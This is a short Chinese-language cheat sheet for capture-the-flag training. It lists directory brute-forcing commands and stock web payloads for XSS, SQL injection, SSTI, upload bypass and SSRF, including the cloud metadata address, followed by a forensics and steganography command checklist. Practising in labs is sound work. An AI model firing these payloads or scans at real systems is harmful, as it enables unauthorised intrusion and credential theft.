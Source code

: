 # Web + Misc 速查（训练前 10 分钟翻一遍）

## Web
- 目录爆破
```bash
feroxbuster -u http://target -x php,asp,aspx,js -w /usr/share/seclists/Discovery/Web-Content/common.txt
ffuf -u http://target/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 0
```
- XSS：`"><svg onload=alert(1)>`
- SQLi：`' OR '1'='1 -- -`；时间盲注：`AND SLEEP(3)` / `pg_sleep(3)`
- 上传：改 Content-Type、双扩展/大小写/点、.htaccess
- SSTI：`{{7*7}}` / `${7*7}`
- SSRF：`http://127.0.0.1`、`169.254.169.254` + dnslog

## Misc（30 分钟 SOP）
```bash
file target
strings -n 6 target | less
xxd -g 1 -l 64 target
binwalk -e target
foremost -i target
7z x target
exiftool target
steghide extract -sf target   # 先空密码，再字典
pngcheck -v target.png
zsteg -a target.png
zbarimg target.png
tshark -r target.pcap -Y "http.request" -T fields -e http.host -e http.request.uri | sort -u
```